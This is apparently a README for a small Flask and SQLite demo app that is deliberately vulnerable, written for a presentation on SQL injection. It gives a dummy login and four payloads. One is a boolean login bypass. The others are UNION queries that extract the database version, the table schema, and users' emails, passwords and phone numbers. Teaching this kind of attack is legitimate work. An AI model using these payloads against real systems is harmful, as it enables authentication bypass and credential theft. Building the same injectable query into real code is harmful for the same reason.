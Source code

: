 
# Basic SQL Injection Demo
A simple web application to demonstrate basic level SQL Injection attack manually for the presentation. Some main functions: log-in, find the items with a search bar.

### Prerequisites
Flask, Python, SQLite
Login with a dummy account:
```
Email: minh@gmail.com
Pass: 12345
```
### Attack

##### Login Form
- Blind SQLi: Perform in the log-in form with the Boolean-based SQLi technique to force the query always return TRUE in order to bypass authentication.
```
' OR 1=1 --
```
##### Search bar
-	In-band SQLi: Perform in the search bar with UNION-based SQLi technique to combine the query result to get unauthorized data from the database.
```
' UNION SELECT sqlite_version(), 2, 3 --
```
```
' UNION SELECT 1, sql, 3 FROM sqlite_master WHERE type='table'--
```
```
' UNION SELECT email, password, phone  FROM users -- 
```
